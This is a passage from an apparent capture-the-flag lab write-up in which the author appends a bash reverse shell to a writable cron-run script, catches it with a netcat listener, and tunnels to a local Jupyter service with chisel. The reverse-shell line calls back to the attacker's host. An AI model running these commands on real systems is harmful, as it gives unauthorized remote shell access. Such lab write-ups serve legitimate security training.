 I have write access for that file...!!

I add this line at last,

~~~
/bin/bash -i >& /dev/tcp/10.10.14.158/4321 0>&1
~~~

Finally , file will look like this,

~~~
#!/bin/bash
cd /dev/shm
rm -rf /dev/shm/shadow.data
/home/juno/.local/bin/shadow /dev/shm/*.yml
cp -a /home/juno/shadow/examples/http-server/network-simulation.yml /dev/shm/
/bin/bash -i >& /dev/tcp/10.10.14.158/4321 0>&1
~~~

I setup a nc listener on other side ,

~~~
nc -lvnp 4321
~~~

![[Pasted image 20230613202145.png]]

Yep..!! Got this ...Because already i saw this process running in background by running pspy64...!!!

After this i checked for service running ,

~~~
netstat -tulpn
~~~

![[Pasted image 20230613202835.png]]

i made port forwarding by importing chisel to my machine,

Chisel server Setup,

~~~
./chisel server -p 8003 --reverse
~~~~

Chisel client setup,

~~~
./chisel client 10.10.14.158:8003 R:8888:localhost:8888
~~~

![[Pasted image 20230613203111.png]]

Got this Page , when i visit to http://127.0.0.1:8888,

It asks for some token or password, so i again searched for some tokens,

There was some token required before we could visit the site. Normally, I'd access this through running `jupyter notebook list`, but there are Python errors with this method. So, we would have to find the source of this website instead to either fix the error or view the logs to find a token. A bit of enumeration reveals that the `/opt` directory contains some interesting files:
